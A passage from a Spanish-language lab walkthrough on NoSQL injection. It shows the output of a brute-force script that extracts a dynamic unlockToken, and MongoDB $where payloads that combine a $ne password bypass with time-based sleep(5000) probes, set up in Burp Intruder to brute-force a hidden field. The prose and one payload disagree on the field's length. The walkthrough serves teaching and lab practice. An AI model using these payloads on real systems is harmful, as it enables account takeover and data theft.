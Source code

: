 `Obtenemos` el `valor` de `unlockToken` pero es diferente, lo que significa que es dinámico

```
# python3 nosqli.py
[-] Fuerza bruta: function(){ if(this.unlockToken.match('^.{15}2.*')) return 1; else 0; }
[↑] Output: 691ba2e24d15a582
```

A veces, `aunque provoquemos un error en la base de datos`, esta `no muestra una diferencia en la respuesta de la web`. En esta situación, `es posible que aún podamos detectar y explotar la inyección usando la cláusula $where` y `provocando` un `retraso` en la `respuesta` con `sleep(5000)`. Lo primero que debemos hacer es `identificar` el `quinto campo` y para `bruteforcearlo` lo primero que tenemos que hacer es `obtener` su `longitud`, en este caso al `longitud` es de `9 caracteres`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(Object.keys(this)[4].length == 10) sleep(5000); }"
}
```

Lo siguiente es `enviar` la `petición` al `Intruder` con este `payload`, una vez ahí vamos a `seleccionar` como tipo de ataque `Cluster bomb` y vamos a `marcar ambos campos`

```
{
  "username": "carlos",
  "password": { "$ne": "testing" },
  "$where": "function(){ if(Object.keys(this)[4].match('^.{0}a.*')) sleep(5000); }"
}
```

![](/assets/img/NoSQLI-Lab-4/image_37.png)

El primer `payload` va a ser de tipo `numérico` y va a ir desde el `0` al `9`, haciendo un total de `10` de `longitud`
